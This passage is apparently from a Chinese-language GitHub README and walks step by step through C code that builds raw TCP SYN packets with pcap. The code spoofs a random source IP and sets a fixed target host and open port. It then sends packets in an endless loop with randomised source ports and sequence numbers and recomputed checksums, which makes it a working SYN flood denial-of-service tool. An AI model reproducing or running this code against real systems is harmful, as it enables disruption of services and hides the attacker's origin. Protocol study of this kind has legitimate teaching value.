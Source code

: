   ```c
   	ipHeader.identification = htons(0x00);    //这里比较随意，任意值皆可
   	ipHeader.flagAndFragPart = 0x00;			//没有分片，所以没有偏移，全部置零
   	ipHeader.ttl = 124;								//跳数。比较随意
   	ipHeader.hiProtovolType = IPPROTO_TCP;					//6表示TCP协议，17表示UDP
   	ipHeader.headerCheckSum = 0x00;			//只对IP头作校验
   	ipHeader.srcIpAddr = inet_addr(srcIP);					//源IP使用随机地址
   	ipHeader.dstIpAddr = inet_addr(dstIP);				//目标IP使用固定地址
   
   	//TCP包首部数据填充
   	TCP_HEADER tcpHeader;
   	memset(&tcpHeader, 0, sizeof(tcpHeader));
   	tcpHeader.dstPort = htons(dstPORT);		//目标端口必须是开放的（有服务在监听）
   	tcpHeader.seqNumber = htonl(0x00);		//序列号 没有约束
   	tcpHeader.ackNumber = htonl(0x00);		//应答号 置零
   	tcpHeader.headLen = 0x50;						//高四位为数据偏移（首部长度），低四位为保留字全部置零
   	tcpHeader.flag = 0x02;							//SYN=1,表示建立连接请求
   	tcpHeader.wndSize = htons(16384);
   	tcpHeader.checkSum = 0x00;
   	tcpHeader.uragentPtr = 0x00;
   
   
   	//拼接
   	memset(packet, 0, sizeof(packet));
   	memcpy(packet, &ethHeader, sizeof ethHeader);
   	memcpy(packet + sizeof(ETH_HEADER), &ipHeader, sizeof ipHeader);
   	memcpy(packet + sizeof(ETH_HEADER) + sizeof(IP_HEADER), &tcpHeader, sizeof tcpHeader);
   	return (sizeof(ETH_HEADER) + sizeof(IP_HEADER) + sizeof(TCP_HEADER));
   }
   ```
   
3. 在死循环中填充动态数据(随机端口和序列号，计算校验和)

   ```c
   		seq = (seq > 65436) ? 0 : seq + 40;
   		ipHeader->headerCheckSum = 0;		//必须为零，不参与校验和
   		ipHeader->headerCheckSum = CheckSum((u16*)ipHeader, sizeof(IP_HEADER));
   
   		tcpHeader->seqNumber = htonl(seq);
   		psdTcpHeader->seqNumber = htonl(seq);
   
   		randPORT = rand() % 0xFFFF;		//随机端口，防止端口重用
   		tcpHeader->srcPort = htons(randPORT);
   		psdTcpHeader->srcPort = htons(randPORT);
   
   		tcpHeader->checkSum = CheckSum((u16*)checkBuff, sizeof(PSD_TCP_HEADER) + sizeof(TCP_HEADER));
   
   ```

4. 发送数据包

   ```c
   		if (pcap_sendpacket(handle,	// Adapter
   			packet,				// buffer with the packet
   			sizeofPk			// size
   		) != 0)
   		{
   			fprintf(stderr, "\nError sending the packet: %s\n", pcap_geterr(handle));
   			return 3;
   		}
   		Sleep(TIME);			//发送间隔时间100ms
   		//system("pause");
   ```
   